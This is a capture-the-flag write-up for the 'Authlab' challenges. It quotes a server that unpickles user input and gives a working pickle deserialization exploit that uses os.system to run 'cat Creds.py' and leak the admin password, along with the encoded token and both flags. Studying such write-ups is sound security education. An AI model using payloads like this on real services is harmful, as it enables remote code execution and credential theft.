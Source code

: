 # [MISC] Authlab & Authlab 1.1

## Description (Authlab)

I made an authentication wrapper for services in python. Help me make sure the admin password cannot be leaked.

Distrib: [Dockerfile](https://raw.githubusercontent.com/k-hian/CTFWriteups/refs/heads/main/Grey%20Cat%20The%20Flag%202025/Authlab/distrib/Dockerfile) [server.py](https://raw.githubusercontent.com/k-hian/CTFWriteups/refs/heads/main/Grey%20Cat%20The%20Flag%202025/Authlab/distrib/server.py) [Creds.py](https://raw.githubusercontent.com/k-hian/CTFWriteups/refs/heads/main/Grey%20Cat%20The%20Flag%202025/Authlab/distrib/Creds.py)

### Flag

`grey{4_p1ck13d_p4ssw0rd_s0uNd5_n1C3}`

## Description (Authlab 1.1)

What a pickle... I have disabled EasyCreds while I try to fix it...

Distrib: [Dockerfile](https://raw.githubusercontent.com/k-hian/CTFWriteups/refs/heads/main/Grey%20Cat%20The%20Flag%202025/Authlab/distrib1.1/Dockerfile) [server.py](https://raw.githubusercontent.com/k-hian/CTFWriteups/refs/heads/main/Grey%20Cat%20The%20Flag%202025/Authlab/distrib1.1/server.py) [Creds.py](https://raw.githubusercontent.com/k-hian/CTFWriteups/refs/heads/main/Grey%20Cat%20The%20Flag%202025/Authlab/distrib1.1/Creds.py) [SecurePickle.py](https://raw.githubusercontent.com/k-hian/CTFWriteups/refs/heads/main/Grey%20Cat%20The%20Flag%202025/Authlab/distrib1.1/SecurePickle.py)


### Flag

`grey{4l1_aU7H_n0_p1Ay_M4k3_mE_4_d1ll_8oY}`

## Solution (Authlab)

A simple sanity-check challenge, to introduce players to the world of pickle deserialization vulnerabilities. This is as simple as a pickle challenge can get, without any restrictions or sanitization. The flag is the password of the admin, stored in `Creds.py`.

The only relevant functional code is the following:

```python
# accessible using the `[E] Login with EasyCreds` option in menu
def easyLogin(self):
    user = pickle.loads(b64decode(input("Enter EasyCreds: ")))
```

By using the `__reduce__` function of an object, we can create a simple serialization object that does remote code execution.

```
import os, pickle as p, base64 as b

class Evil:
  def __reduce__(self):
    return (os.system, ('cat Creds.py',))

evil = Evil()
evil_pickle = p.dumps(evil)
evil_token = b.b64encode(evil_pickle)
print(evil_token)
# gASVJwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAxjYXQgQ3JlZHMucHmUhZRSlC4=
```
